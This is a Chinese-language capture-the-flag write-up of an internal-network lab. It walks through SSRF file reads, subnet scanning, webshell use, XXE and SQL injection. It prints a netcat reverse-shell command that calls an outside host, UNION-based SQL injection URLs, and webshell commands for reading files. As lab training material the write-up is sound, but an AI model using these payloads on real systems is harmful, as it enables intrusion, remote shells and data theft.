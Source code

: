 # 考点总结：

```
1.ssrf  fie://读文件（读哪些文件）、http内网探测、敏感文件跑一跑
2.sql注入，fuzz测试，显示有问题时，order by http://192.168.0.138/?id=-1+and+1=2+union+select+1,database(),3,TABLE_NAME+from+information_schema.tables+where+TABLE_SCHEMA="bugku_sql"+order+by+1
3.nc反弹shell(注意没有bash，使用sh)
4.xxe读文件
```



题目给了一个登录框，用于获取站点快照，存在SSRF，直接读flag

![图片](assets/640.png)

访问host文件，得到本机ip

![图片](assets/640-17008121148901.png)

对192.168.0/24网段爆破，爆破结果如下

![图片](assets/640-17008121148912.png)



## **192.168.0.10**

其中192.168.0.10是被黑的网页：

![图片](assets/640-17008121148913.png)

![图片](assets/640-17008121148914.png)

盲猜shell.php（爆破敏感文件）

![图片](assets/640-17008121148915.png)

直接读根目录flag即可：

- **http://192.168.0.10/shell.php?cmd=cat** /f*

![图片](assets/640-17008121148916.png)

发现当前目录也存在一个flag

![图片](assets/640-17008121148917.png)

直接读即可

![图片](assets/640-17008121148918.png)

题目存在nc

![图片](assets/640-17008121148929.png)

使用nc弹shell，注意不存在bash，要用sh

```
http://192.168.0.10/shell.php?cmd=nc 1.1.1.1 7777 -e /bin/sh
```

![图片](assets/640-170081211489210.png)

## **192.168.0.138**

内网探测到192.168.0.138，存在联合注入，payload如下

```
http://192.168.0.138?id=100%20union%20select%201,2,3,(select%20*%20from%20bugku_sql.flag)--+
```

![图片](assets/640-170081211489211.png)

## **10.10.0.22**

由于fscan出了点问题，写了个python脚本跑了一下10.10.0/24网段：

```python
import requests

for i in range(1,256):
    url = "http://10.10.0." + str(i)
    try:
        r = requests.get(url)
    except:
        continue
    else:
        if r.status_code == 200:
            print(url)
```



![图片](assets/640-170081211489212.png)

还存在10.10.0.22这台机子



![图片](assets/640-170081211489213.png)

访问后台admin.php，账号密码都是admin 后台有一个文件上传的功能，没有过滤，直接上传一句话木马连接即可：



![图片](assets/640-170081211489214.png)

同样也是存在两个flag 一个在网站目录

![图片](assets/640-170081211489215.png)

一个在根目录

![图片](assets/640-170081211489216.png)



## **192.168.0.250**

内网192.168.0.250是一个登录页面



![图片](assets/640-170081211489217.png)

存在xxe漏洞 直接读flag接口



![图片](assets/640-170081211489218.png)

根据前一题的经验，在/var/www/html下可能还存在一个flag

![图片](assets/640-170081211489219.png)

> 
